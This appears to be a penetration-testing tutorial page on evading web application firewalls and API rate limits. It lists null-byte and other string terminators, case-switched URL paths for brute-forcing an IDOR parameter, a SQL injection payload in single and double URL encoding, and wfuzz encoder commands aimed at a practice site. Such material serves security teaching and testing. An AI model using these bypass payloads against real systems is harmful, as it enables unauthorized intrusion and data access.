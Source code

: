 WAFs, for example, can be triggered by a wide variety of things, like:
- Too many requests for resources that do not exist.
- Too many requests within a certain amount of time
- Common attack attempts, like SQL injection and XSS attacks
- Abnormal behavior, like tests for authorization vulnerabilities

The following measures can be effective at evading or bypassing these restrictions.

## String Terminators
Here is a list of potential string terminators you can use:

%00

0x00

//

;

%

!

?

[]

%5B%5D

%09

%0a

%0b

%0c

%0e

## Case Switching

Let’s say you were targeting a social media site by attempting an IDOR attack against a uid parameter in the following POST request:  

POST /api/myprofile 

[…] 

{uid=§0001§} 

 An API may leverage rate-limiting to only allow 100 requests per minute. Based on the length of the uid value, you know that to brute force it you’ll need to send 10,000 requests to exhaust all possibilities. To bypass rate-limiting or other WAF controls you may be able to simply alter the URL path by switching upper- and lower-case letters in the path: 

POST /api/myProfile 

POST /api/MyProfile 

POST /aPi/MypRoFiLe

In the case where rate-limiting is renewed, you could use the BurpSuite Pitchfork attack to pair a certain number of attacks to a certain number of brute-force attempts.

For example:

POST /api/myprofile paired with uid 001 - 100

POST /api/Myprofile paired with uid 101 - 200

POST /api/mYprofile paired with uid 201 - 300

## Encoding Payloads

URL Encoded Payload: %27%20%4f%52%20%31%3d%31%3b

API Provider URL Decoder: ' OR 1=1;

WAF Rules detect a fairly obvious SQL Injection attack and block the payload.

Double URL Encoded Payload: %25%32%37%25%32%30%25%34%66%25%35%32%25%32%30%25%33%31%25%33%64%25%33%31%25%33%62

API Provider URL Decoder: %27%20%4f%52%20%31%3d%31%3b

## Payload Processing with Burp Suite

To test your payload processing, launch an attack and review the request payloads.

POST /api/v3/user?id=%00%75%6e%64%65%66%69%6e%65%64%00

POST /api/v3/user?id=%00%75%6e%64%65%66%00

POST /api/v3/user?id=%00%28%6e%75%6c%6c%29%00

## Evasion with Wfuzz
$ wfuzz -e encoders

- A sample of the available Wfuzz encoders

|   |   |   |
|---|---|---|
|Category|Name|Summary|
|hashes|base64|Encodes the given string using base64|
|url|urlencode|Replaces special characters in strings using the %xx escape. Letters, digits, and the characters '_.-' are never quoted.|
|default|random_upper|Replaces random characters in strings with capitals letters|
|hashes|md5|Applies a MD5 hash to the given string|
|default|none|Returns all characters without changes|
|default|hexlify|Converts every byte of data to its corresponding two-digit hex representation|
Next, to use an encoder, add a comma to the payload and specify its name:

`$ wfuzz -z file,wordlist/api/common.txt,**base64** [http://hapihacker.com/FUZZ](http://hapihacker.com/FUZZ)`

For example, if you were to have a single payload “TEST” with the encoding applied like this:  
`$ wfuzz -z list,TEST,**base64-md5-none**`

Note that if you had three payloads, using a hyphen for three encoders would send nine total requests like this:

`$ wfuzz -z list,a-b-c,**base64-md5-none** -u [http://hapihacker.com/api/v2/FUZZ](http://hapihacker.com/api/v2/FUZZ)`

![](attachments/dyyhWcR2ipYsoLizBTQA_Evasion3.webp)